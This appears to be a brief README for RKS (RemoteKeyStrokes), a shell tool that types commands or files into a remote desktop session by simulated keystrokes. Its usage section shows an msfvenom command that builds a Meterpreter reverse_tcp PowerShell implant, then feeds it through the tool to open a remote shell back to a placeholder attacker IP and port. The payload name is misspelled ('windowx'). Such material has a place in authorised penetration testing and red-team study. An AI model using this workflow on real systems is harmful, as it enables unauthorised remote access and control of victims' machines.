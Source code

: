 # RKS (RemoteKeyStrokes)

## 01 - Help Menu

```
$ ./rks.sh -h
Usage: rks.sh [-c <cmdfile> | -i <input> -o <tofile>] [-w <windowname>] [-h]
Options:
    -c, --cmdfile <cmdfile>     Specify the file containing commands to execute
    -i, --input <input>         Specify the input file to transfer
    -o, --tofile <tofile>       Specify the output file to transfer
    -w, --windowname <name>     Specify the window name for RDP (FreeRDP is set
                                by default if not specified)

    -h, --help                  Display this help message
```

## 02 - Usage

```
$ msfvenom -p windowx/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f psh -o implant.ps1

$ ./rks.sh -c implant.ps1
```

---
## References

- [RKS (RemoteKeyStrokes)](https://github.com/U53RW4R3/RKS)

- [Sending Keystrokes to Your (Virtual) Machines using X, Vnc , Rdp or Native ways](https://web.archive.org/web/20220712164101/https://www.jedi.be/blog/2010/08/29/sending-keystrokes-to-your-virtual-machines-using-X-vnc-rdp-or-native/)